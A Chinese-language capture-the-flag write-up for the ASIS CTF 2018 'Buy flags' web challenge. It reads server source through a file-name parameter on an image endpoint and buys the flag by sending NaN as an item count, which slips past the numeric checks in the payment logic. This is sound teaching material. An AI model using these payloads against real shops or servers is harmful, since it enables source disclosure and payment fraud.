 # Buy flags

> Challenge Link: [Buy flags](https://asisctf.com/challenges/)
>
> Category: misc
>
> Writeup: [Buy flags](https://github.com/frozenkp/CTF/tree/master/2018/ASIS_CTF_qual/web/Buy_flags)

[Here](http://46.101.173.61/) is an online shop that sells flags :) but we don’t have enough money! Can you buy the flag?

## Observation

這是一個可以購買 flag 的網站，可以勾選想要的 flag，然後輸入 coupon，不過 credit 是 0，也不知道 coupon 是啥，所以都只會回傳 "your credit not enough"

![](https://i.imgur.com/a349JzK.png)

### pay API

按下 pay 以後會 POST 到 http://46.101.173.61/pay

傳的內容有 coupon 以及點選的 flag 項目及數量

```json
{card: [{name: "asis", count: 1}], coupon: "YWJj"}
```

結果也是用 json 回傳

```json
{result: "your credit not enough"}
```

這邊有嘗試把 count 改成 0 或是 -1，不過 server 都有處理掉

```json
{"card":[{"name":"asis","count":-1}],"coupon":"aA=="}
```

```json
{"result": "item count must be greater than zero"}
```

### image API

檢查原始碼以後發現圖片是由 http://46.101.173.61/image?name=asis.png 傳過來的，看起來應該是可以做 LFI，不過經過測試後發現只要輸入 `/` 或 `..` 就會回傳 `Access Denied`，猜測可能 server 的檔案也放在當前目錄，所以試了 `server.py` ，但也沒拿到

### flask session

Cookie 的部分有一個 session，乍看之下以為是 jwt，第一段可以解出 data，但其他兩段就完全不能解了

後來查了一下才知道是 flask session，後面兩段是用來驗證第一段的 data 的，需要有 secret key 才能偽造

```
eyJjb3Vwb25zIjpbXSwiY3JlZGl0IjowfQ.Dctipw.Q8aC2jTPn9lLxZQU-0Fc3oBx3Ig
```

```json
{"coupons":[],"credit":0}
```



## Solution

解法的部分是在賽後參照 Writeup 的

### Source code

首先是可以利用 image API 拿到 `app.py`  (flask 的預設 server file)

```
http://46.101.173.61/image?name=app.py
```

其中，flag 是放在 private/flag.txt，secret key 則是放在 private/secret.txt

```python
4   app.secret_key = open('private/secret.txt').read()
20  'data': open('private/flag.txt').read()
```

看一下 image API 的寫法，已經把 private 底下的檔案濾掉了

```python
if '/' in image_name or '..' in image_name or 'private' in image_name:
	return 'Access Denied'
```

### json NaN

最後的解法是在 pay API 把數量改成 NaN 就可以拿到 flag 了

原始碼中，count 的驗證如下

```python
data = request.get_json()
card = data['card']
for flag in card:
    if flag['count'] <= 0:
        return jsonify({'result':'item count must be greater than zero'})
```

實際測試一下，NaN 在 parse 後是 float，且可以通過 `<= 0` 的驗證

```python
>>> text = '{"var":NaN}'
>>> data = json.loads(text)
>>> print data
{u'var': nan}
>>> data['var']
nan
>>> type(data['var'])
<type 'float'>
>>> data['var'] <= 0
False
```

接下來在計算 credit 時的驗證方法如下

```python
for flag in card:
	credit -= flag['count'] * flags[flag['name']]['price']
if credit < 0:
	result = {'result': 'your credit not enough'}
```

實際測試後發現，只要操作流程中有用到 nan，該變數就會被設成 nan，也就可以順利通過驗證了

```python
>>> credit = 0
>>> credit -= data['var'] * 110
>>> credit
nan
>>> credit < 0
False
```

